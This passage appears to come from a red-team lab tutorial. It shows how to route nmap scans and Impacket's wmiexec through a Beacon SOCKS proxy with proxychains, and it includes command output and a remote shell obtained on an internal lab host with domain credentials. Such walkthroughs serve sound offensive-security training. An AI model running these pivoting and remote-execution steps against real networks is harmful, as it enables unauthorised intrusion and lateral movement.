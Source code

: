 ```
attacker@ubuntu ~> sudo vim /etc/proxychains.conf
```

At the bottom of the file, you will see a default entry for SOCKS4:  `socks4 127.0.0.1 9050`.  We need to change this to match the settings of the proxy we started in Beacon.

- SOCKS4:  `socks4 127.0.0.1 1080`

OR  

- SOCKS5:  `socks5 127.0.0.1 1080 myUser myPassword`

To tunnel a tool through proxychains, it's as simple as `proxychains [tool] [tool args]`.  So to tunnel `nmap`, it would be:

```
attacker@ubuntu ~> proxychains nmap -n -Pn -sT -p445,3389,4444,5985 10.10.122.10
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-05 13:31 UTC
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:3389-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:445-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>>-10.10.122.10:4444-<--timeout
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:5985-<><>>-OK
Nmap scan report for 10.10.122.10
Host is up (0.061s latency).

PORT     STATE  SERVICE
445/tcp  open   microsoft-ds
3389/tcp open   ms-wbt-server
4444/tcp closed krb524
5985/tcp open   wsman

Nmap done: 1 IP address (1 host up) scanned in 15.31 seconds
```

There are some restrictions on the type of traffic that can be tunnelled, so you must make adjustments with your tools as necessary.  ICMP and SYN scans cannot be tunnelled, so we must disable ping discovery (`-Pn`) and specify TCP scans (`-sT`) for this to work.

You can also run tools from inside WSL on Windows.

```
ubuntu@DESKTOP-3BSK7NO ~ > proxychains wmiexec.py DEV/jking@10.10.122.30
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:445-<><>-OK
[*] SMBv3.0 dialect used
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:135-<><>-OK
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:49667-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
dev\jking

C:\>hostname
web
```
